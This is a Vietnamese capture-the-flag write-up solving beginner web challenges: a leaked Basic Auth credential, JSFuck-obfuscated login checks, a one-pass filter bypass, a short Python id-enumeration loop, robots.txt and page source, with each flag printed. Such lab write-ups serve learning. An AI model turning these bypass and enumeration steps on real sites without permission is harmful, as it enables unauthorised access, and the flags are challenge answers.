> Để nhiều loại Trình duyệt và Web Server có thể nói chuyện và hiểu được nhau thì họ phải sử dụng chung một giao thức có tên gọi là HTTP Protocol. Khi người dùng bắt đầu truy cập Web, trình duyệt sẽ chuyển những hành động của họ thành yêu cầu (Request) tới Web Server. Còn Web Server sẽ trả lời (Response) xem có thể đáp ứng hay từ chối cung cấp thông tin cho trình duyệt.
>
> Ví dụ, bạn Gà muốn LẤY danh sách các thử thách trong cookiearena<chấm>org, ở đường dẫn /challenges bằng TRÌNH DUYỆT Chrome. Trình duyệt của Gà sẽ phải điền vào một cái form mẫu có tên gọi là HTTP Header và gửi đi. Mỗi yêu cầu sẽ được viết trên một dòng, và nội dung của mỗi yêu cầu sẽ phải viết đằng sau dấu hai chấm.
>
> Hãy đoán xem trong thử thách này có những Header thú vị nào nha

Đập vào mắt mình là dòng chữ `Hello GET Request. Nice to meet you <3` nên mình thử ngay với POST thì nó sẽ ra cái gì

`Missing Basic Authorization Header.`

Hmm, sau đó để ý lại thì lúc GET có 1 cái comment nho nhỏ ở document

```html
<!--
	Basic Authentication Credential: gaconlonton/cookiehanhoan
-->
```

Basic authorization header là 1 loại header để chứa cái token sau khi người dùng đã đăng nhập và cho server định danh được người dùng khi truy cập những endpoint yêu cầu phải có định danh.

Cú pháp của header này sẽ là

`Authorization: Basic <base64(username:password)>`

Với thông tin đăng nhập ở trên thì mình có base64 là `Z2Fjb25sb250b246Y29va2llaGFuaG9hbg==`, sau đó thêm header này vào và gửi lại request.

`Congras!!! Here's your flag: Flag{m4g1c@l_h34d3r_xD}`

Yay!!!

### JS B\*\*p B\*\*p

> Sau nhiều đêm suy nghĩ về việc làm thế nào để bảo vệ mã nguồn. Cố gắng thoát khỏi ánh mắt soi mói của Mèo Yang Hồ.
>
> Gà chẹp miệng rồi nói: "Đã tới lúc phải cho nó phải thốt lên rằng! WTF!!!"

Câu này lại tiếp tục là 1 form đăng nhập khác, nhưng có tới 3 trường. Nhập đại thử thì trang hiện alert `Wrong Credentials!`, nên mình mò xem chỗ nào gọi hàm alert đó.

```html
<script src='./static/js/1.js'></script>
<script src='./static/js/2.js'></script>
<script src='./static/js/3.js'></script>
<script src='./static/js/4.js'></script>
<script>
  const form = document.getElementById('login'); 
  form.addEventListener('submit', function (event) {
    event.preventDefault();

    let username = form.elements['username'].value;
    let password = form.elements['password'].value;
    let role     = form.elements['role'].value;

    if (verifyUsername(username) && verifyPassword(password) && verifyRole(role)) {
      event.target.submit();
    } else {
      alert('Wrong Credentials!')
      location.reload(true)
    }
  })
</script>
```

Oke, thế thì làm cho 3 cái hàm `verifyUsername`, `verifyPassword`, `verifyRole` trả về `true` là xong. Nhưng biết nó chạy thế nào mà trả về? Lúc đó mình nhìn lên thì thấy import tới tận 4 file js nên có thể nó sẽ nằm đâu đó trong này.

Thì ra cả 4 file đó đều viết bằng JS F\*ck :))) thế thì lên mấy [online tool](https://enkhee-osiris.github.io/Decoder-JSFuck/) như cái [này](https://youtu.be/Gs069dndIYk?t=110) để dịch thôi :v

```js
// 1.js
function verifyUsername(username) {     if (username != "cookiehanhoan") {       return false     }     return true   }

// 2.js
function reverseString(str) {   if (str === "")    { return "" }   else {   return reverseString(str.substr(1)) + str.charAt(0)}   }

// 3.js
function verifyPassword(password) {     if (reverseString(password) != "dr0Wss@p3rucreSr3pus") {       return false     }     return true   }

// 4.js
function verifyRole(role) {
    if (role.charCodeAt(0) != 64) {
        return false;
    }
    if ((role.charCodeAt(1) + role.charCodeAt(2) != 209) && (role.charCodeAt(2) - role.charCodeAt(1) != 9)) {
        return false       
    }       
    if ((role.charCodeAt(3).toString() + role.charCodeAt(4).toString() != "10578") && (role.charCodeAt(3) - role.charCodeAt(4) != 27)) {         
        return false       
    }     
    return true   
}
```

User name thì dễ thấy do so sánh thẳng string, password thì đọc ngược lại cái chuỗi `dr0Wss@p3rucreSr3pus` thành `sup3rSercur3p@ssW0rd`.

Role thì hơi khó chịu hơn, tính tay ASCII code của từng kí tự thì sẽ ra '@dmiN'

Nhập hết thì sẽ nhận được flag `Flag{JAV-ascript_F*ck}`

### Impossible

> Học lỏm được công thức chế tạo lá chắn tàng hình của Hazy. Gà nhanh chóng đem về xây dựng hệ thống phòng thủ của riêng mình. Liệu nó có làm khó được Mèo Yang Hồ không?

Yet-another-login-form! Lần này thì chỉ có mỗi password thôi, và cũng có cả script để xử lý trong document luôn, quá khỏe :v

```js
function checkPass()
{
	var password = document.getElementById('password').value;
	if (btoa(password.replace("cookiehanhoan", "")) == "Y29va2llaGFuaG9hbg==") {
		window.setTimeout(function() {
			window.location.assign('check.php?password=' + password);
		}, 500);
	}
}
```

Hàm `btoa` chính là encode base64, và `Y29va2llaGFuaG9hbg==` decode sẽ ra `cookiehanhoan`, nghĩa là hàm `checkPass()` này lọc các xâu con `cookiehanhoan` trong mật khẩu mình nhập, sau đó encode base64 và check với giá trị kia. Nghĩa là thứ mình nhập vào, bằng 1 cách nào đó, phải là `cookiehanhoan` sau khi đã lọc.

Nghe impossible thật nhưng có 1 cái cần để ý là hàm này chỉ lọc hết mọi xâu con đó **1 lần**, nghĩa là nếu mình nhập 1 thứ đại loại như này `cookiecookiehanhoanhanhoan` thì lọc hộ luôn :)) Khi lọc xong xâu con ở giữa thì phần đầu với cuối ghép lại vẫn ra `cookiehanhoan`, ezpz.

Xong tới đó sẽ có được flag `Flag{Javascript_is_not_safe???}`

### Infinite Loop

> Cuộc đời luôn là vậy. Một giây trước tưởng đã cùng đường, một giây sau có lại đầy hy vọng. Các chiến binh đã có công cụ mạnh mẽ trong tay, hãy dùng nó để can thiệp dòng chảy.

Tiếp 1 cái login form khác =))) Lần này không có js script gì để xử lý input nên mình cũng nhập đại, sau đó thì thấy trang đơ và hiện cái lỗi như thế này.


Thú vị, trang này làm gì có cookie, bật network ra thì thấy spam nhiều request như thế này.


Mình chả hiểu chuyện gì đang xảy ra cả nên google kiếm xem có bài nào tương tự không, thì đa phần nó là brute theo cái id và flag sẽ nằm ở 1 trong số đó. Nhưng chắc là vì devtool của Chrome không nhận content luôn vì nó là redirect, nên mình dùng `requests` của python đọc xem có gì không.


Hmm có gì thật, hên mà id đây cũng chỉ 0 tới 10 nên thử 1 tí là mình đã thấy kết quả.

```python
for i in range(11):
	r = requests.get('http://chal6.web.letspentest.org/check.php?id=' + str(i), allow_redirects=False)
	print(i, r.text)
```


`Flag{Y0u_c4ptur3_m3_xD!!!}`

### I am not a robot

> Nếu là người thì cho xem tai, còn nếu là robot thì đứng ở ngoài. Bạn đã bị chặn

=))) Bài này thì quá quen rồi, thường các search engine sẽ có những con bot để "crawl" thông tin của các website và đánh dấu tụi nó lại để tiện cho người dùng tìm kiếm. Tuy nhiên vì 1 số lý do mà chúng ta không muốn con bot đi vào những endpoint nào đó, thì việc config đó sẽ nằm trong file `robots.txt`. Truy cập `/robots.txt`


Thế là bạn biết mình làm gì tiếp rồi đấy ( ͡° ͜ʖ ͡°)

`Flag{N0_B0T_@ll0w}`

### Sause

> Trình duyệt đang rất vất vả để chuyển đổi các đoạn mã thành hình ảnh và màu sắc. Hãy trải nghiệm góc nhìn của trình duyệt nhé!

Bài này thì flag nằm ngay trong document luôn =))) Bật devtools lên là thầy.

`Flag{Web_Sause_Delicious}`